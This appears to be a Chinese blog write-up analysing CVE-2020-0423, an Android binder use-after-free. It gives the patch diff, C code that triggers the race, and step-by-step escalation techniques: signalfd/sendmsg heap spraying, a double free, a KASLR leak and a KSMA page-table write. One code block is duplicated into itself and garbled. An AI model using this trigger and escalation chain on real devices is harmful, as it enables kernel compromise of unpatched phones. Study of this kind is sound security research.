

# CVE-2020-0423

## 漏洞简介

2020年10月公布了bulletin，这是最近新的提权漏洞，存在于binder中。
这个漏洞大致上是binder的sender和receive端的对binder_node结构体的race condition转化为uaf漏洞，作者进一步触发了double free，结合后续巧妙的堆喷分配，利用slub和ksma机制，绕过kalsr和cfi保护，官方给出影响的版本在Android 8-11之间

## 漏洞原理

我们从patch来明白漏洞点

这是patch前

```c
// Before the patch

static struct binder_work *binder_dequeue_work_head(
                    struct binder_proc *proc,
                    struct list_head *list)
{
    struct binder_work *w;

    binder_inner_proc_lock(proc);
    w = binder_dequeue_work_head_ilocked(list);
    binder_inner_proc_unlock(proc);
    return w;
}

static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;

    while (1) {
        w = binder_dequeue_work_head(proc, list);
        /*
         * From this point on, there is no lock on `proc` anymore
         * which means `w` could have been freed in another thread and
         * therefore be pointing to dangling memory.
         */
        if (!w)
            return;

        switch (w->type) { /* <--- Use-after-free occurs here */

// [...]
```

这是pathch后

```c
// After the patch

static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
    enum binder_work_type wtype;

    while (1) {
        binder_inner_proc_lock(proc);
        /*
         * Since the lock on `proc` is held while calling
         * `binder_dequeue_work_head_ilocked` and reading the `type` field of
         * the resulting `binder_work` stuct, we can be sure its value has not
         * been tampered with.
         */
        w = binder_dequeue_work_head_ilocked(list);
        wtype = w ? w->type : 0;
        binder_inner_proc_unlock(proc);
        if (!w)
            return;

        switch (wtype) { /* <--- Use-after-free not possible anymore */

// [...]
```

我们从patch可以看出补丁后主要是扩大了锁的范围，可能这样还看不出来多少，同时我们通过commit message来查看漏洞点

z

其中binder_node包括了binder_work

```c
struct binder_node {
    int debug_id;
    spinlock_t lock;
    struct binder_work work; //binder_work
    union {
        struct rb_node rb_node;
        struct hlist_node dead_node;
    };
    [...]
}
```

就是条件竞争引发的uaf洞，主线程执行binder_release_work还没进入binder_dequeue_work_head前，子线程就free了binder_node(包含了binder_work),而主线程从todo list出列释放后的binder_node的binder_work，造成了uaf

接下来具体分析如何触发漏洞

### binder_work出队

如何才能执行binder_release_work(binder的好多cve怎么都触发到这里)

```c
int binder_fd = open("/dev/binder", O_RDWR);
// [...]
ioctl(binder_fd, BINDER_THREAD_EXIT, 0);
```

接下来，我们跟踪代码了解流程

ioctl会调用binder_ioctl,当我们的参数是BINDER_THREAD_EXIT时

```c
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
    // [...]

    case BINDER_THREAD_EXIT:
        binder_debug(BINDER_DEBUG_THREADS, "%d:%d exit\n",
                    proc->pid, thread->pid);
        binder_thread_release(proc, thread);
        thread = NULL;
        break;

    // [...]
```

binder_ioctl会调用binder_thread_release

```c
static int binder_thread_release(struct binder_proc *proc,
                 struct binder_thread *thread)
{
    // [...]

    binder_release_work(proc, &thread->todo);
    binder_thread_dec_tmpref(thread);
    return active_transactions;
}
```

而后binder_thread_release调用binder_release_work

```c
static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;

    while (1) {
        w = binder_dequeue_work_head(proc, list); /* dequeues from thread->todo */
        if (!w)
            return;

    // [...]
```

而后binder_work从todo list出队，进入漏洞出发点

### binder_work如何入队

这里主要讲述binder_work如何加入todo list

首先binder_ioctl BINDER_WRITE_READ进入binder_ioctl_write_read

```c
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
	[...]

	thread = binder_get_thread(proc);
	[..]

	switch (cmd) {
	case BINDER_WRITE_READ:
		ret = binder_ioctl_write_read(filp, cmd, arg, thread);
		if (ret)
			goto err;
		break;
            [...]
    }
```

之后从 binder_ioctl_write_read进入binder_thread_write

```c
static int binder_ioctl_write_read(struct file *filp,
				unsigned int cmd, unsigned long arg,
				struct binder_thread *thread)
{
	[...]
    void __user *ubuf = (void __user *)arg;
	struct binder_write_read bwr;

	[...]
	if (copy_from_user(&bwr, ubuf, sizeof(bwr))) {
		ret = -EFAULT;
		goto out;
	}
	if (bwr.write_size > 0) {
		ret = binder_thread_write(proc, thread,
					  bwr.write_buffer,
					  bwr.write_size,
					  &bwr.write_consumed);
		[...]
	}
```

当指令是BC_transaction时进入binder_transaction

```c
  static int binder_thread_write(struct binder_proc *proc,
			struct binder_thread *thread,
			binder_uintptr_t binder_buffer, size_t size,
			binder_size_t *consumed)
{
	uint32_t cmd;
	struct binder_context *context = proc->context;
	void __user *buffer = (void __user *)(uintptr_t)binder_buffer;
	void __user *ptr = buffer + *consumed;
	void __user *end = buffer + size;
      [...]
        case BC_TRANSACTION:
		case BC_REPLY: {
			struct binder_transaction_data tr;

			if (copy_from_user(&tr, ptr, sizeof(tr)))
				return -EFAULT;
			ptr += sizeof(tr);
			binder_transaction(proc, thread, &tr,
					   cmd == BC_REPLY, 0);
			break;
		}
      [...]
  }
```

之后从binder_transaction 当指令是BINDER_TYPE_BINDER时进入binder_translate_binder

```c
   static void binder_transaction(struct binder_proc *proc,
			       struct binder_thread *thread,
			       struct binder_transaction_data *tr, int reply,
			       binder_size_t extra_buffers_size)
   {
       
   [...]
        case BINDER_TYPE_BINDER:
		case BINDER_TYPE_WEAK_BINDER: {
			struct flat_binder_object *fp;

			fp = to_flat_binder_object(hdr);
			ret = binder_translate_binder(fp, t, thread);
			if (ret < 0) {
				return_error = BR_FAILED_REPLY;
				return_error_param = ret;
				return_error_line = __LINE__;
				goto err_translate_failed;
			}
        [...]    
            
```

在进入binder_inc_ref_for_node之前，对于我们的flat_binder_object没有一个node处理它的话，binder_translate_binder会调用binder_new_node创造一个node

```c
static int binder_translate_binder(struct flat_binder_object *fp,
                   struct binder_transaction *t,
                   struct binder_thread *thread)
{
    	struct binder_node *node;
	struct binder_proc *proc = thread->proc;
	struct binder_proc *target_proc = t->to_proc;
	struct binder_ref_data rdata;
	int ret = 0;

	node = binder_get_node(proc, fp->binder);
	if (!node) {
		node = binder_new_node(proc, fp);
		if (!node)
			return -ENOMEM;
	}
    // [...]
    ret = binder_inc_ref_for_node(target_proc, node,
            fp->hdr.type == BINDER_TYPE_BINDER,
            &thread->todo, &rdata);
    // [...]
}
```

对于binder_inc_ref_for_node来说 

proc是binder_proc当前进程的结构体 node是我们的目标node,strong判断是不是BINDER_TYPE_BINDER

target_list就是todo list ,rdata是binder_ref。refcount数据

```c
static int binder_inc_ref_for_node(struct binder_proc *proc,
            struct binder_node *node,
            bool strong,
            struct list_head *target_list,
            struct binder_ref_data *rdata)
{
    // [...]
    ret = binder_inc_ref_olocked(ref, strong, target_list);
    // [...]
}
```

binder_inc_ref_olocked又调用binder_inc_node ，这两个主要判断BINDER_TYPE_BINDER还是BINDER_TYPE_WEAK_BINDER

```c
static int binder_inc_ref_olocked(struct binder_ref *ref, int strong,
                  struct list_head *target_list)
{
    // [...]
            // Strong ref path
            ret = binder_inc_node(ref->node, 1, 1, target_list);
    // [...]
            // Weak ref path
            ret = binder_inc_node(ref->node, 0, 1, target_list);
    // [...]

}
```

binder_inc_node就是binder_inc_node_nilocked 调用了binder_enqueue_work_ilocked，binder_enqueue_deferred_thread_work_ilocked，要注意这里传的是&node->work,work内嵌在binder_node里面，所以我们释放的时候就要free binder_node

```c
static int binder_inc_node_nilocked(struct binder_node *node, int strong,
                    int internal,
                    struct list_head *target_list)
{
    // [...]
    if (strong) {
        // [...]
        if (!node->has_strong_ref && target_list) {
            // [...]
            binder_enqueue_deferred_thread_work_ilocked(thread,
                                   &node->work);
        }
    } else {
        // [...]
        if (!node->has_weak_ref && list_empty(&node->work.entry)) {
            // [...]
            binder_enqueue_work_ilocked(&node->work, target_list);
        }
    }
    return 0;
}
```

而这两个都是将binder_work加入到todo list队里面去

```c
static void
binder_enqueue_thread_work_ilocked(struct binder_thread *thread,
                   struct binder_work *work)
{
    binder_enqueue_work_ilocked(work, &thread->todo);
    thread->process_todo = true;
}

static void
binder_enqueue_deferred_thread_work_ilocked(struct binder_thread *thread,
                        struct binder_work *work)
{
    binder_enqueue_work_ilocked(work, &thread->todo);
}
```

从上述路线，可以看出要到达这个函数，我们得先构造struct flat_binder_object，包装成struct binder_transaction_data，再包装成 struct binder_write_read，用它来触发binder_ioctl才会入队

### 如何free binder_work(binder_node)

主要是调用这个函数

```c
static void binder_free_node(struct binder_node *node)
{
    kfree(node);
    binder_stats_deleted(BINDER_STAT_NODE);
}
```

在binder_parse中，回复一个事务时(binder 的c/s结构)，如果是单向事务TF_ONE_WAY就调用binder_free_buffer

```c
int binder_parse(struct binder_state *bs, struct binder_io *bio,
                 uintptr_t ptr, size_t size, binder_handler func)
{
        // [...]
        switch(cmd) {
        // [...]
        case BR_TRANSACTION_SEC_CTX:
        case BR_TRANSACTION: {
            // [...]
            if (func) {
                // [...]
                if (txn.transaction_data.flags & TF_ONE_WAY) {
                    binder_free_buffer(bs, txn.transaction_data.data.ptr.buffer);
                } else {
                    binder_send_reply(bs, &reply, txn.transaction_data.data.ptr.buffer, res);
                }
            }
            break;
        }
        // [...]
```

binder_free_buffer就会以BC_FREE_BUFFER调用binder_thread_write,到达BC_FREE_BUFFER,调用binder_transaction_buffer_release

```c
static int binder_thread_write(struct binder_proc *proc,
            struct binder_thread *thread,
            binder_uintptr_t binder_buffer, size_t size,
            binder_size_t *consumed)
{
        // [...]
        case BC_FREE_BUFFER: {
            // [...]
            binder_transaction_buffer_release(proc, buffer, 0, false);
            // [...]
        }
        // [...]
```

 binder_transaction_buffer_release会根据指令的类型来选择释放,入队时选择的是BINDER_TYPE_HANDLE

```c
static void binder_transaction_buffer_release(struct binder_proc *proc,
                          struct binder_buffer *buffer,
                          binder_size_t failed_at,
                          bool is_failure)
{
        // [...]
        switch (hdr->type) {
        // [...]
        case BINDER_TYPE_HANDLE:
        case BINDER_TYPE_WEAK_HANDLE: {
            struct flat_binder_object *fp;
            struct binder_ref_data rdata;
            int ret;
            fp = to_flat_binder_object(hdr);
            ret = binder_dec_ref_for_handle(proc, fp->handle,
                hdr->type == BINDER_TYPE_HANDLE, &rdata);
            // [...]
        } break;
        // [...]
```

binder_dec_ref_for_handle会将减少句柄上的引用,如果引用为0,就free_ref

```c
static int binder_update_ref_for_handle(struct binder_proc *proc,
        uint32_t desc, bool increment, bool strong,
        struct binder_ref_data *rdata)
{
    // [...]
    if (increment)
        ret = binder_inc_ref_olocked(ref, strong, NULL);
    else
        /* 
         * Decrements the reference count by one and returns true since it
         * dropped to zero
         */
        delete_ref = binder_dec_ref_olocked(ref, strong);
    // [...]
    /* delete_ref is true, the binder node is freed */
    if (delete_ref)
        binder_free_ref(ref);
    return ret;
    // [...]
}
```

调用binder_free_ref,kfree node了

```c
static void binder_free_ref(struct binder_ref *ref)
{
    if (ref->node)
        binder_free_node(ref->node);
    kfree(ref->death);
    kfree(ref);
}
```

因而明白了触发漏洞的思路

首先我们自己向binder 发送一个BINDER_TYPE_BINDER TF_ONE_WAY的事务，binder会创建一个binder_node,并将该binder_node的work加入binder_thread->todo list里面去


之后我们进程使用BINDER_THREAD_EXIT启动清理过程，调用binder_release_work,把我们的node.work出todo list的队


因为我们设置的是TF_ONE_WAY，之后binder就会在出队之后和使用之前free掉binder_node，造成uaf


首先根据我们之前分析的work入todo list队,构造一个符合条件，通过前面所有检查的trnasaction

```c
static inline void init_binder_transaction(int nb) {
    /*
     * Writes `nb` times a BINDER_TYPE_BINDER object in the object buffer
     * and updates the offsets in the offset buffer accordingly
     */
    for (int i = 0; i < nb; i++) {
        struct flat_binder_object *fbo =
            (struct flat_binder_object *)((void*)(MEM_ADDR + 0x400LL + i*sizeof(*fbo)));
        fbo->hdr.type = BINDER_TYPE_BINDER;
        fbo->binder = i;
        fbo->cookie = i;
        uint64_t *offset = (uint64_t *)((void *)(MEM_ADDR + OFFSETS_START + 8LL*i));
        *offset = i * sizeof(*fbo);
    }

    /*
     * Binder transaction data referencing the offset and object buffers
     */
    struct binder_transaction_data btd2 = {
        .flags = TF_ONE_WAY, /* we don't need a reply */
        .data_size = 0x28 * nb,
        .offsets_size = 8 * nb,
        .data.ptr.buffer = MEM_ADDR  + 0x400,
        .data.ptr.offsets = MEM_ADDR + OFFSETS_START,
    };

    uint64_t txn_size = sizeof(uint32_t) + sizeof(btd2);

    /* Transaction command */
    *(uint32_t*)(MEM_ADDR + 0x200) = BC_TRANSACTION;
    memcpy((void*)(MEM_ADDR + 0x204), &btd2, sizeof(btd2));

    /* Binder write/read structure sent to binder */
    struct binder_write_read bwr = {
        .write_size = txn_size * (1), // 1 txno
        .write_buffer = MEM_ADDR + 0x200
    };
    memcpy((void*)(MEM_ADDR + 0x100), &bwr, sizeof(bwr));
}
```

open("/dev/binder",O_RDWR),入队，然后出队

```c
void *trigger_thread_func(void *argp) {
    unsigned long id = (unsigned long)argp;
    int ret = 0;
    int binder_fd = -1;
    int binder_fd_copy = -1;

    // Opening binder device
    binder_fd = open("/dev/binder", O_RDWR);
    if (binder_fd < 0)
        perror("An error occured while opening binder");

    for (;;) {
        // Refill the memory region with the transaction
        init_binder_transaction(1);
        // Copying the binder fd
        binder_fd_copy = dup(binder_fd);
        // Sending the transaction
        ret = ioctl(binder_fd_copy, BINDER_WRITE_READ, MEM_ADDR + 0x100);
        if (ret != 0)
            debug_printf("BINDER_WRITE_READ did not work: %d", ret);
        // Binder thread exit
        ret = ioctl(binder_fd_copy, BINDER_THREAD_EXIT, 0);
        if (ret != 0)
            debug_printf("BINDER_WRITE_EXIT did not work: %d", ret);
        // Closing binder device
        close(binder_fd_copy);
    }

    return NULL;
}
```

多线程调用，更大概率可以触发到

```c
int main() {
    pthread_t trigger_threads[NB_TRIGGER_THREADS];

    // Memory region for binder transactions
    mmap((void*)MEM_ADDR, MEM_SIZE, PROT_READ | PROT_WRITE,
         MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0);

    // Init random
    srand(time(0));

    // Get rid of stdout/stderr buffering
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Starting trigger threads
    debug_print("Starting trigger threads");
    for (unsigned long i = 0; i < NB_TRIGGER_THREADS; i++) {
        pthread_create(&trigger_threads[i], NULL, trigger_thread_func, (void*)i);
    }
    // Waiting for trigger threads
    for (int i = 0; i < NB_TRIGGER_THREADS; i++)
        pthread_join(trigger_threads[i], NULL);

    return 0;
}
```

## 漏洞利用

在这里，主要说一下漏洞利用思路，目前利用脚本还没有写成功

由于已经造成了uaf,所以接下来的想法就是堆喷喷上去，最好是里面的内容是我们自己伪造的，这样我们就可以控制binder_release_work的后续流程了

```c
static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
    while (1) {
        w = binder_dequeue_work_head(proc, list);
        if (!w)
            return;

        switch (w->type) { /* <-- Value controlled with the use-after-free */
        // [...]
        default:
            pr_err("unexpected work type, %d, not freed\n",
                   w->type);
            break;
        }
    }
}
```

在android kernel中slab最小的是kmalloc-128 而binder_node结构体大小为128，因而我们应该kernel，malloc一个大小小于等于128的堆才有可能喷的上，在这里作者使用的是sendmsg和signalfd来喷的，在次看一下源码，了解是如何喷上去的

```c
static int ___sys_sendmsg(struct socket *sock, struct user_msghdr __user *msg,
			 struct msghdr *msg_sys, unsigned int flags,
			 struct used_address *used_address,
			 unsigned int allowed_msghdr_flags)
{
	struct compat_msghdr __user *msg_compat =
	    (struct compat_msghdr __user *)msg;
	struct sockaddr_storage address;
	struct iovec iovstack[UIO_FASTIOV], *iov = iovstack;
	unsigned char ctl[sizeof(struct cmsghdr) + 20]
				__aligned(sizeof(__kernel_size_t));
	/* 20 is size of ipv6_pktinfo */
	unsigned char *ctl_buf = ctl;
	int ctl_len;
	ssize_t err;

	msg_sys->msg_name = &address;

	if (MSG_CMSG_COMPAT & flags)
		err = get_compat_msghdr(msg_sys, msg_compat, NULL, &iov);
	else
		err = copy_msghdr_from_user(msg_sys, msg, NULL, &iov);
	if (err < 0)
		return err;

	err = -ENOBUFS;

	if (msg_sys->msg_controllen > INT_MAX)
		goto out_freeiov;
	flags |= (msg_sys->msg_flags & allowed_msghdr_flags);
	ctl_len = msg_sys->msg_controllen;
	if ((MSG_CMSG_COMPAT & flags) && ctl_len) {
		err =
		    cmsghdr_from_user_compat_to_kern(msg_sys, sock->sk, ctl,
						     sizeof(ctl));
		if (err)
			goto out_freeiov;
		ctl_buf = msg_sys->msg_control;
		ctl_len = msg_sys->msg_controllen;
	} else if (ctl_len) {
		BUILD_BUG_ON(sizeof(struct cmsghdr) !=
			     CMSG_ALIGN(sizeof(struct cmsghdr)));
		if (ctl_len > sizeof(ctl)) {
	【1】		ctl_buf = sock_kmalloc(sock->sk, ctl_len, GFP_KERNEL);
			if (ctl_buf == NULL)
				goto out_freeiov;
		}
		err = -EFAULT;
		
【2】		if (copy_from_user(ctl_buf,
				   (void __user __force *)msg_sys->msg_control,
				   ctl_len))
			goto out_freectl;
		msg_sys->msg_control = ctl_buf;
	}
	msg_sys->msg_flags = flags;

	if (sock->file->f_flags & O_NONBLOCK)
		msg_sys->msg_flags |= MSG_DONTWAIT;
	
	if (used_address && msg_sys->msg_name &&
	    used_address->name_len == msg_sys->msg_namelen &&
	    !memcmp(&used_address->name, msg_sys->msg_name,
		    used_address->name_len)) {
		err = sock_sendmsg_nosec(sock, msg_sys);
		goto out_freectl;
	}
	err = sock_sendmsg(sock, msg_sys);
	/*
	 * If this is sendmmsg() and sending to current destination address was
	 * successful, remember it.
	 */
	if (used_address && err >= 0) {
		used_address->name_len = msg_sys->msg_namelen;
		if (msg_sys->msg_name)
			memcpy(&used_address->name, msg_sys->msg_name,
			       used_address->name_len);
	}

out_freectl:
	if (ctl_buf != ctl)
	【3】	sock_kfree_s(sock->sk, ctl_buf, ctl_len);
out_freeiov:
	kfree(iov);
	return err;
}
```

注意我标记的【1】【2】【3】

【1】表面 当ctl_len> 44(ctl的结构体）时，就会malloc

【2】将我们用户空间的内容原封不动的copy到ctl_buf上

【3】最后malloc的ctl_buf会释放

signalfd就是简单的malloc 8个字节，而且很稳定，不会被系统释放，由于在android上最小的就是kmalloc-128,所以再调用完sendmsg后调用signalfd就会占据我们的堆，同时不会将我们再sendmsg copy_from_user的内容置0，所以流程如图

.png)

因而我们可以伪造控制Binder_release_work后续内容

```c
static void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
    while (1) {
        w = binder_dequeue_work_head(proc, list);
        if (!w)
            return;

        switch (w->type) {
        case BINDER_WORK_TRANSACTION: {
            struct binder_transaction *t;
            t = container_of(w, struct binder_transaction, work);
            binder_cleanup_transaction(t, "process died.",
                           BR_DEAD_REPLY);
        } break;
        case BINDER_WORK_RETURN_ERROR: {
            struct binder_error *e = container_of(
                    w, struct binder_error, work);
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered TRANSACTION_ERROR: %u\n",
                e->cmd);
        } break;
        case BINDER_WORK_TRANSACTION_COMPLETE: {
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered TRANSACTION_COMPLETE\n");
            kfree(w);
            binder_stats_deleted(BINDER_STAT_TRANSACTION_COMPLETE);
        } break;
        case BINDER_WORK_DEAD_BINDER_AND_CLEAR:
        case BINDER_WORK_CLEAR_DEATH_NOTIFICATION: {
            struct binstatic void binder_release_work(struct binder_proc *proc,
                struct list_head *list)
{
    struct binder_work *w;
    while (1) {
        w = binder_dequeue_work_head(proc, list);
        if (!w)
            return;

        switch (w->type) {
        case BINDER_WORK_TRANSACTION: {
            struct binder_transaction *t;
            t = container_of(w, struct binder_transaction, work);
            binder_cleanup_transaction(t, "process died.",
                           BR_DEAD_REPLY);
        } break;
        case BINDER_WORK_RETURN_ERROR: {
            struct binder_error *e = container_of(
                    w, struct binder_error, work);
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered TRANSACTION_ERROR: %u\n",
                e->cmd);
        } break;
        case BINDER_WORK_TRANSACTION_COMPLETE: {
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered TRANSACTION_COMPLETE\n");
            kfree(w);
            binder_stats_deleted(BINDER_STAT_TRANSACTION_COMPLETE);
        } break;
        case BINDER_WORK_DEAD_BINDER_AND_CLEAR:
        case BINDER_WORK_CLEAR_DEATH_NOTIFICATION: {
            struct binder_ref_death *death;
            death = container_of(w, struct binder_ref_death, work);
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered death notification, %016llx\n",
                (u64)death->cookie);
            kfree(death);
            binder_stats_deleted(BINDER_STAT_DEATH);
        } break;
        default:
            pr_err("unexpected work type, %d, not freed\n",
                   w->type);
            break;
        }
    }
}der_ref_death *death;
            death = container_of(w, struct binder_ref_death, work);
            binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
                "undelivered death notification, %016llx\n",
                (u64)death->cookie);
            kfree(death);
            binder_stats_deleted(BINDER_STAT_DEATH);
        } break;
        default:
            pr_err("unexpected work type, %d, not freed\n",
                   w->type);
            break;
        }
    }
}
```

通过查看binder_release_work，可以知道如果binder_node在x地址的话，binder_work在x+8地址的话

- `BINDER_WORK_TRANSACTION` will free `X`

- `BINDER_WORK_TRANSACTION_COMPLETE`, `BINDER_WORK_DEAD_BINDER_AND_CLEAR` and `BINDER_WORK_CLEAR_DEATH_NOTIFICATION` will free `X+8`

  作者在这里选择了BINDER_WORK_TRANSACTION情况，接着来看 binder_cleanup_transaction,如何伪造满足条件

  ```c
  static void binder_cleanup_transaction(struct binder_transaction *t,
                         const char *reason,
                         uint32_t error_code)
  {
      if (t->buffer->target_node && !(t->flags & TF_ONE_WAY)) {
          binder_send_failed_reply(t, error_code);
      } else {
          binder_debug(BINDER_DEBUG_DEAD_TRANSACTION,
              "undelivered transaction %d, %s\n",
              t->debug_id, reason);
          binder_free_transaction(t);
      }
  }
  
  ```

  t->buffer必须是kernel address ,t->flags必须是TF_ONE_WAY

  ```c
  static void binder_free_transaction(struct binder_transaction *t)
  {
      struct binder_proc *target_proc = t->to_proc;
      if (target_proc) {
          binder_inner_proc_lock(target_proc);
          if (t->buffer)
              t->buffer->transaction = NULL;
          binder_inner_proc_unlock(target_proc);
      }
      /*
       * If the transaction has no target_proc, then
       * t->buffer->transaction has already been cleared.
       */
      kfree(t);
      binder_stats_deleted(BINDER_STAT_TRANSACTION);
  }
  ```

  t->to_proc必须是NULL,从而free掉了binder_node,如果我们在用户空间再自我free掉signalfd的话，就造成了

  double free的情况

  

  接下来就2个目的了，【1】泄露kaslr 【2】ksma攻击

  ###  leak kaslr

  signalfd是leak kaslr的一个重点，它有三个功能

  【1】使用kmalloc-128 且不初始化其他部分
  
  【2】可以在分配地址读取一个8字节的值
  
  【3】可以在分配地址写入几乎任意的8字节值
  
  步骤：
  
  （1）使用double free来泄露signalfd,在程序运行完binder_free_transaction后，就造成了double free,
  
  （2）这时候我们再senfmsg signalfd(fd2),通过读取fd2地址上的值，判断是否于第一次堆喷uaf的signalfd(fd1)上的binder_work ->type  是否一致，
  
  （3）如果一样，说明fd2和fd1重叠了，fd1和fd2指向同一个地址，接着释放fd1,再堆喷一个具有函数指针的结构体，
  
  （4）堆喷成功后，通过fd2读取该函数指针，从而泄露kaslr
  
  作者在这里选用的堆喷结构体是seq_operations
  
  ```c
  struct seq_operations {
      void * (*start) (struct seq_file *m, loff_t *pos);
      void (*stop) (struct seq_file *m, void *v);
      void * (*next) (struct seq_file *m, void *v, loff_t *pos);
      int (*show) (struct seq_file *m, void *v);
  };
  ```
  
  通过fd2正好读取start函数的地址
  
  当调用single_open就会分配seq_operations ,而single_open被调用当交互/proc文件系统时 作者在这里选用了/proc/self/stat
  
  /proc/self/stat在 `proc_stat_init`中创建 ，当open这个文件时调用 [`stat_open`]
  
  ```c
  static int __init proc_stat_init(void)
  {
      proc_create("stat", 0, NULL, &proc_stat_operations);
      return 0;
  }
  fs_initcall(proc_stat_init);
  
  static const struct file_operations proc_stat_operations = {
      .open       = stat_open,
      .read       = seq_read,
      .llseek     = seq_lseek,
      .release    = single_release,
  };
  
  static int stat_open(struct inode *inode, struct file *file)
  {
      unsigned int size = 1024 + 128 * num_online_cpus();
      /* minimum size to display an interrupt count : 2 bytes */
      size += 2 * nr_irqs;
      return single_open_size(file, show_stat, NULL, size);
  }
  ```
  
  继续跟踪发现在single_open_size中调用了single_open
  
  ```c
  int single_open_size(struct file *file, int (*show)(struct seq_file *, void *),
          void *data, size_t size)
  {
      char *buf = seq_buf_alloc(size);
      int ret;
      if (!buf)
          return -ENOMEM;
      ret = single_open(file, show, data);
      if (ret) {
          kvfree(buf);
          return ret;
      }
      ((struct seq_file *)file->private_data)->buf = buf;
      ((struct seq_file *)file->private_data)->size = size;
      return 0;
  }
  ```
  
  而在single_open函数中
  
  ```c
  int single_open(struct file *file, int (*show)(struct seq_file *, void *),
          void *data)
  {
      struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
      int res = -ENOMEM;
      if (op) {
          op->start = single_start;
          op->next = single_next;
          op->stop = single_stop;
          op->show = show;
          res = seq_open(file, op);
          if (!res)
              ((struct seq_file *)file->private_data)->private = data;
          else
              kfree(op);
      }
      return res;
  }
  ```
  
  如果我们堆喷成功，我们就可以读取single_start的地址，
  
  可问题是single_open有两次malloc,一次是分配
  
  seq_operation,一次是在seq_open中都是kmalloc-128，
  
  因而为了确定是否喷对了结构体.我们必须有个判断，kaslr的低位的偏移量是不会发生改变的，因此我们先cat /proc/kallsyms | grep "single_open" 读取的数值再于我们fd2读取的相减。如果低位是0，说明堆喷成功了
  
  ```c
  (kaslr_leak - single_start_offset) & 0xffff == 0
  ```
  
  ### ksma攻击
  
  这个部分只能说是太巧妙了，还是利用了double free来进行攻击提权的
  
  leak了kaslr,通过cat "swapper_pg_dir"知道了一级页表的储存地址
  
  ```c
  flame:/ # grep -i -e " swapper_pg_dir" /proc/kallsyms
  ffffff886f2b5000 B swapper_pg_dir
  ```
  
  为了不影响原来的kernel address kernel data ,作者映射的地址为
  
  ```c
  0xffffff8000000000 + 0x1e0 * 0x40000000 = 0xfffffff800000000
  ```
  
  通过
  
  ```c
  flame:/ # grep "Kernel code" /proc/iomem
    80080000-823affff : Kernel code
  ```
  
  作者为了对齐，映射的物理地址为0x80000000
  
  关闭pxn，kaslr,权限设置为可读可写，对此block descriptor
  
  ```c
  0x00e8000000000751 | 0x80000000 = 0x00e8000080000751
  ```
  
  如果我们ksma攻击成功，即在
  
  ```c
  swapper_pg_dir + 8*0x1e0
  ```
  
  地址写上0x00e8000080000751，那么在 0xfffffff800000000～（0xfffffff800000000 + 1gb）上映射从0x80000000物理地址开始的一个gb，
  
  其中包含所有的kernel code kernel data,我们即可以在0xfffffff800000000+对应偏移上任意更改kernel中的任何函数 任何数据，
  
  对此我们需要有一次对内核任意地址写的权限，即可完成ksma攻击，进而提权就是小case了，
  
  接下来，我们来看作者是如何得到机会获得一次对内核地址任意写的权限的
  
  我们有两个signalfd指向同一块chunk，我们释放掉一个，对此，对此这块chunk就会加入到freelist行列去，这块内存的开头存放之前被free 的chunk地址，
  
  而我们还有个signalfd指向这块chunk,对此通过signalfd改写这个地址改成我们想要的地址，我们就有机会堆喷喷到我们改写的地址上，
  
  可是通过signalfd写入有一个问题
  
  ```c
  SYSCALL_DEFINE4(signalfd4, int, ufd, sigset_t __user *, user_mask,
  		size_t, sizemask, int, flags)
  {
  	sigset_t sigmask;
  	struct signalfd_ctx *ctx;
  
  [...]
  	if (sizemask != sizeof(sigset_t) ||
  	    copy_from_user(&sigmask, user_mask, sizeof(sigmask)))
  		return -EINVAL;
  	sigdelsetmask(&sigmask, sigmask(SIGKILL) | sigmask(SIGSTOP));
  	signotset(&sigmask);
  
  	if (ufd == -1) {
  		ctx = kmalloc(sizeof(*ctx), GFP_KERNEL);
  		if (!ctx)
  			return -ENOMEM;
  
  		ctx->sigmask = sigmask;
          [...]
  ```
  
  sigdelsetmask(&sigmask, sigmask(SIGKILL) | sigmask(SIGSTOP));signotset(&sigmask);会导致在我们的值上 | 40100，因而我们不直接写上swapper_pg_dir地址，否则不会malloc到上面去,因为地址变成了（swapper_pg_dir |  0x40100）
  
  
  
  对此，作者想了别的方法
  
  ,有点复杂
  
